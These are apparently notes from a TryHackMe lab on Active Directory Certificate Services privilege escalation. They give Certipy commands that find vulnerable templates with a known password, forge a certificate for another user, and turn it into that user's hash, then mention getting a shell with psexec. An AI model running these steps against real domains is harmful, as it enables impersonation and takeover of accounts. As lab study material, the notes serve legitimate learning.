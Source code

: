 
https://github.com/ly4k/Certipy
https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage


```bash title="Find vulnerabilities in ADCS after initial set of credentials"
certipy-ad find -u 'SUSANNA_MCKNIGHT@local.thm' -p 'CHANGEME2023!' -dc-ip $target -vulnerable
```

![[Pasted image 20250811231216.png]]


```bash title="Forge certificate"
certipy-ad -debug req -dc-ip $target -username 'SUSANNA_MCKNIGHT' -password 'CHANGEME2023!' -ca 'thm-LABYRINTH-CA' -target 'labyrinth.thm.local' -template 'ServerAuth' -upn 'BRADLEY_ORTIZ@THM.LOCAL'
```


```bash title="Get hash for specific users"
certipy-ad -debug auth -pfx 'bradley_ortiz.pfx' -dc-ip $target
```


get shell with psexec(wmiexec) next


https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation

